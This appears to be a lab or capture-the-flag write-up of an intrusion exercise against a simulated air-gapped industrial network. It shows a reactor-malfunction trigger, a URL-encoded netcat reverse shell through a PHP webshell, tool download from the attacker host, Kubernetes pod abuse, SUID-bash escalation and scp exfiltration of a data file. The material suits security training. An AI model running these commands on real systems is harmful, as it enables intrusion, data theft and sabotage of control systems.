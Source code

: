 # Actions on Objectives

- [Actions on Objectives](#actions-on-objectives)
  - [Objective 1: Nuclear Meltdown](#objective-1-nuclear-meltdown)
  - [Neighbour Discovery](#neighbour-discovery)
  - [Privilege Escalation - Data-Deployment-b](#privilege-escalation---data-deployment-b)
  - [Local Enumeration - Sensitive Pod](#local-enumeration---sensitive-pod)
  - [Actions On Objective 2 - Exfiltrate the secret file](#actions-on-objective-2---exfiltrate-the-secret-file)

----

Recalling the objectives:

> 1. Cause Nuclear Meltdown (detrimental-state)<br/>
> 2. Exfiltrate critical information on one of the air-gapped networks

<br/>


## Objective 1: Nuclear Meltdown

Follow the instruction found on the jump-server:

```
Code Control > Malfunctions > set option 12 (Inadvertent Rod Withdrawl)


Modify Delay Time (5)
Failure Fraction (100)
Check the active box 


Then, RUN the application, in 5 seconds, a message "OVERFlow" appears.
```

![picture 49](images/a7a09238b6408f1f735fe11096d8602e2435559a6c9d2f290981ab9fbed006c1.png)  

![picture 50](images/25d8469c2d0921658b4240fa9e7ce7fd43ac0ad9aebff0f82faf013b01cd6b6b.png)  

<br/>

## Neighbour Discovery

On the remote desktop, use `arp -a` to discovery neighbour:

![picture 51](images/9c203adda88234c4626b4c5f83bb35b7d37119b1167fb73b66eb998eb38f92f3.png)  

Use `ping` to discover the network `10.2.1.0/24`:

```
FOR /L %i IN (1,1,254) DO ping -n 1 10.2.1.%i | FIND /i "Reply">>c:\users\administrator\desktop\ipaddresses.txt
```

![picture 52](images/ade5bb35dad0eb3d5582c1d82bc36702baf7f60ab0636d2784b869ea09f3df82.png)  

- `10.2.1.2` and `10.2.1.3` are alive hosts.

<br/>

Try to access 10.2.1.2 using browser:

![picture 53](images/665ccaee4bd6ed1b5b8d8f11ea38e5e711ecfd36e7be9e4cbfe0d05435c47094.png)  

- The PHP page is using `system()` command.

<br/>

Try to append `?cmd=id`:

![picture 54](images/3e1669177763f2a5effd07282f2ddc54d38b2c5660346d32f8e26271ffdde27f.png)  

- As shown, the `id` command is executed. We can use this webshell to get a reverse shell

<br/>

On the attacker machine:

```
nc -nlvp 443
```

On the RDP, make the following request:

```
http://10.2.1.2/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.100.11%204443%20%3E%2Ftmp%2Ff 
```

![picture 55](images/7a3035e73b469a51d299964d868e673c39ac7e193916079ea9a31e6be70931d4.png)  

![picture 56](images/43cc2ab0f84529647bbd7e22cc7deb7987bb1e51eeb031d320a3827af43213f0.png)  

As shown, a reverse shell calls back.

<br/>

## Privilege Escalation - Data-Deployment-b

Checking the mount, it is a kubernetes host:

```
mount
```

![picture 57](images/0af2b579f86ebd371322a2a37ee188426e84884da3075fd19f757ece24843c7c.png)  

<br/>

Since we are in Kubernetes environment, we can use `kubectl` to enuemrate the K8S environment:

```
cd /tmp && curl http://192.168.100.11/kubectl -o /tmp/kubectl
```

![picture 58](images/30effe4ffef84b8acc9dfdb721a49e2c63b5aa6a712bd9193caa281e2f989e88.png)  


<br/>

Enumerate PODS on the K8S environment:

```
chmod +x kubectl
```

```
./kubectl get pods
```

![picture 59](images/7cf72ff7a4fc37a31c9bac5a4a5b62ff5d976d154386d53f747ae574517b52a6.png)  

<br/>

Try to access `sensitive-pod`:

```
./kubectl exec -it sensitive-pod /bin/bash
```

![picture 60](images/b9dd3eee4e64750668fe8e945cd079ed70d1c05ec2d629c8422f7ff6a95fb4bf.png)  

- As shown, we can access the sensitive-pod as root.

<br/>

## Local Enumeration - Sensitive Pod

Check the mount related to the Kubernetes host:

```
mount | grep sda
```

![picture 61](images/6008fd59e6f05b7c480a5eb22021dcf0a10d418a89082058dd54cc55d8b7e424.png)  

- The host mount is on `/root` in this pod

<br/>

Checking `/root`, it is in fact structured like a linux system:

```
ls /root
```

![picture 62](images/fe23975e420ca58831cca4f4502bd06ac14173cb7635da4e71c953d6c5c7ed58.png)  

<br/>

Enumerating the home folder, found the following path with an ssh key and remote access information:

![picture 63](images/5c03278ef7c044ebf8fe82a0d95d3e56c68686e0bda5a61635b4687ac0f71b68.png)  

<br/>

Check the hosts file `/root/etc/hosts`:

```
cat /root/etc/hosts
```

![picture 64](images/72cfa554cc3cfe77c48047cd670955aca132aefc02fb7faa48b14d91678c9996.png)  

- data-master = `10.2.1.2`

<br/>

Try to SSH to `10.2.1.2` using the private key `id_rsa`:

```
ssh -i id_rsa data-master@10.2.1.2
```

![picture 65](images/0fdeeebd7d852406d16620b1a13b4b7667aec098fe7dcfaccdb1dcb0259d64c2.png)  

<br/>

## Actions On Objective 2 - Exfiltrate the secret file

Checking the data-master home directory, there is a file `cron.sh`.

![picture 66](images/13a3e09e60c0e5d20deca2465ba4829053ed0bc47072a1014636135764d56016.png)  

<br/>

Checking `/tmp/bash`, it is with SUID and owned by `root`. 

```
ls -l /tmp/
```

![picture 67](images/6e13b83053d4fa58940c66c7ce40640fd2c842f4a24812f1c0b747b19675eea8.png)  

<br/>

We can use this to become root:

```
/tmp/bash -p
```

![picture 68](images/7f40ec4e803a7481861e2c146bb363588343bdffbad0faf916eb670de72e0a9c.png)  

<br/>

Checking the `/root` directory, `Critical-Data.xlsx` is found:

![picture 69](images/d708b1700d62e8eb04e18cb9a10dc4cb3fb412410c644a5f596854d2f773b653.png)  

<br/>

To exfiltrate, use `scp`:

```
md5sum Critical-Data.xlsx && scp /root/Critical-Data.xlsx root@192.168.100.11:/tmp/Critical-Data.xlsx
```

![picture 70](images/e26f043269cc60f9917ba68fb1e91d341d10cfd6277be71ded7725c62c1a293b.png)  

<br/>

Check the file on the attacker host:

```
md5sum Critical-Data.xlsx
```

![picture 71](images/4cc7b1dcd0887a8122d37219c1c8064e835b8ccea89257fa3f22c806f861a772.png)  

- As shown, the md5 of the received file is the same as the one on `data-master`.

<br/>

Inspect the content of `Critical-Data.xlsx`:

![picture 72](images/7f81d2fedbd207d1c212754e4ab06d57b9a2a2cf915caf795d8980283b14e0be.png)  

